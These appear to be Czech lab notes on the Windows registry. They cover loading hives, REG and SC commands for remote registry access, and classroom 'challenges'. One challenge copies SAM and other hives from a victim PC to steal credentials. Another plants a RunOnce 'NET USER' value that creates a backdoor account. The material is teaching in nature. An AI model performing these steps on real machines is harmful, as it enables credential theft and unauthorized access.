 Pokud se nám podaří získat soubory s registry (cizí registry), není možné si je prohlédnout v běžném textovém editoru,
	ale je nutné si je připojit například do Regeditu
		- Označit klíč HKEY_LOCAL_MACHINE
		- Z menu vybrat File/Load Hive
		- Z disku vybrat soubor s cizími registry, který chceme připojit
		- Pojmenovat nově připojený klíč (např. CiziSW)
		- Po skončení práce je dobré připojené registry odpojit
		- Označíme klíč CiziSW
		- Zvolíme v menu File/Unload Hive
S registry je možné pracovat také z prostředí příkazové řádky pomocí příkazu REG
	REG /?
	REG QUERY HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnce
	REG ADD HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnce /v Notepad /t REG_SZ /d notepad.exe

S registry lze pracovat i vzdáleně (na jiných PC v síti)
	REG ADD \\student924-11\HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnce /v Pozdrav /t REG_SZ /d "Pozdrav od Romana"
Abychom mohli přistupovat ke vzdáleným registrům, musí být splněny následující podmínky:
	- Na vzdáleném PC musíte mít admin oprávnění
	- Na vzdáleném PC musí být na FW povolen přístup na RPC služby
	- Na vzdáleném PC musí běžet služba RemoteRegistry
		- Defaultně běžela na Windows XP
		- Ve Windows 7 byla tato služba defaultně zastavena
		- Ve Windows 10 je tato služba defaultně zakázána
Pokud jsou splněny první dvě podmínky, můžeme službu RemoteRegistry na vzdáleném PC povolit a nastartovat vzdáleně
	SC \\student924-11 CONFIG RemoteRegistry START= demand
	SC \\student924-11 START RemoteRegistry

Challenge 2
-----------
Úkol:	Ukradněte z PC oběti soubory registrů a získejte tak např. přihlašovací údaje
Řešení:	Off-line attack
	Nabootujeme z CD (Windows PE)
	Stiskem SHIFT+F10 vyvoláme CMD
	D:
	MKDIR \UkradeneRegistry
	CD \Windows\System32\config
	COPY S* \UkradeneRegistry\



Challenge 3
-----------
Úkol: 	Dostaňte se do PC, ke kterému máte fyzický přístup, ale je na něm prováděna kontrola integrity systémových souborů
Řešení:	Při Off-line útoku změníme registry (konkrétně do klíče Run vložíme hodnotu, která po restartu vytvoří nového uživatele)
	- Nabootujeme z CD (Windows PE)
	- Stiskem SHIFT+F10 vyvoláme CMD
	- Spustíme REGEDIT
	- Připojíme registry (SOFTWARE) z HDD
		- klikneme na HKLM
		- File / Load Hive
		- Vyhledáme D:\Windows\System32\config\SOFTWARE a připojíme ho jako CiziSW
		- Do klíče HKLM\CiziSW\Microsoft\Windows\CurrentVersion\RunOnce vložíme
			nocou řetězcovou hodnotu NewUser: NET USER reguser heslo /add
		- Odpojíme připojené registry
			- klikneme na CiziSW
			- File / Unload Hive
Nedostatek uvedeného řešení:
	- Uživatel vznikne až po té, co se na napadeném PC přihlásí někdo s administrátorským oprávněním
